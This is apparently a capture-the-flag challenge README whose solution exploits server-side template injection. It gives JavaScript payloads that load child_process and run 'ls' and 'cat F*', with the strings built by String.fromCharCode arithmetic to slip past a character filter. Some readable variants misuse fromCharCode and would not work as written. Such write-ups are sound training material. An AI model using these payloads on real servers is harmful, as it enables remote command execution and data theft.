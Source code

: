 # 1337

**Category:** Web
**Difficulty:** Medium
**Author:** iCiaran

## Description

C0NV3R7 70/FR0M L337

## Distribution

- None (Maybe /source serving plain index.js)

## Deploy notes

docker compose

## Solution

- SSTI on input, eg `<%=7\*7%>
- TO is unusable (converts most vowels to numbers)
- FROM Only allows us to use the numbers 8,9 and 2
- Run `ls`
  - `await import('child_process').then((m) => { return m.execSync(String.fromCharCode('ls'));});`
  - `await import(String.fromCharCode(99,98+8-2,98+9-2,99+9,98+2,99-2-2,88+22+2,88+28-2,82+29,99,99+2,99+8+8,99+8+8)).then((m) => { return m.execSync(String.fromCharCode(99+9,99+8+8));});`
- Run some variation of `cat F*`
  - `await import('child_process').then((m) => { return m.execSync(String.fromCharCode('cat F*'));});`
  - `await import(String.fromCharCode(99,98+8-2,98+9-2,99+9,98+2,99-2-2,88+22+2,88+28-2,82+29,99,99+2,99+8+8,99+8+8)).then((m) => { return m.execSync(String.fromCharCode(99,99-2,99+9+8,8+8+8+8,88-8-8-2,9+9+9+9+8-2));});`
